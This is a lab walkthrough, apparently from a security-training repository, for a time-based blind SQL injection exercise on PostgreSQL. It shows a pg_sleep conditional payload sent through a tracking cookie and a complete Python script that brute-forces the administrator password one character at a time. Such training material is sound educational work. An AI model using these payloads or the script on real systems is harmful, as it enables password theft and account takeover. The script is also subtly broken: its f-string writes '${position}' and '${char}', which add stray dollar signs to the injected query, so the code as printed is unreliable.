




# Lab 15: Blind SQL injection with time delays and information retrieval

## Statement

*This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.*

*The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.*

*The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.*

*To solve the lab, log in as the `administrator` user.*

## Walkthrough

In this lab, the SQL injection is once again in the `TrackingId` cookie. We will use BurpSuite to work more comfortably from there. After trying several types of injections, we see that none of them work, until we try with time delays and see that the database is PostgreSQL.



Next, we can try to put a `;` to start a new query, however that symbol conflicts with the request, since it uses the `;` to separate the different cookies. We can solve this problem by URL encoding the sign, which becomes `%3b`. We must also add the `select`, since we are starting a new query.



Now we can use conditional time delays to cause a delay when the condition is true. To do this we can use the following syntax:

```sql
SELECT CASE WHEN (YOUR_CONDITION_HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
```

Thanks to this we discover that the administrator user's password has 20 characters. To do this we must specify that we want to use the `users` table and the `administrator` user.



Now we can use `substring()` to iterate character by character of the password, matching it to different values until we discover the password.



To perform this tedious task we will create a python script that does it for us. You can find the file [here](scripts/sqli.py).

```python
#!/usr/bin/env python3

import string
import requests
import signal
import pwn
import sys
import time

# Ctrl_C

def def_handler(sig, frame):
    print("\n[X] Cancelling brute force attack...\n ")
    p1.failure("Attack stopped")
    sys.exit(1)
    

def bruteforceSQLI():

    url="https://0a59007c03b982a68105344400520044.web-security-academy.net/"
    password = ""

    characters = string.ascii_lowercase + string.digits

    for position in range(1,21):
        for char in characters:

            cookies = {"TrackingId":f"'%3b select case when(username='administrator' and substring(password,${position},1)='${char}') then pg_sleep(2) else pg_sleep(0) end from users-- -",
                       "session":"iagESIZChhUmrwJaDh6JKnLm69Jx0W7w"
                       }
            
            p1.status(cookies["TrackingId"])

            start_time = time.time()

            r = requests.get(url, cookies=cookies)

            end_time = time.time()

            if end_time - start_time > 2:
                password += char
                p2.status(password)
                break


if __name__ == "__main__":
    
    signal.signal(signal.SIGINT, def_handler)

    p1 = pwn.log.progress("Time Based SQLI")
    p2 = pwn.log.progress("Password")

    bruteforceSQLI()


    p1.success("Attack finished.")
```

When we run the script, it takes care of discovering the password. We can now log in as the `administrator` user and complete the lab.


---
<div align="center">
  <a href="../Lab-14/README.md">⬅️ Previous Lab</a>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
  <a href="../Lab-16/README.md">Next Lab ➡️</a>
</div>
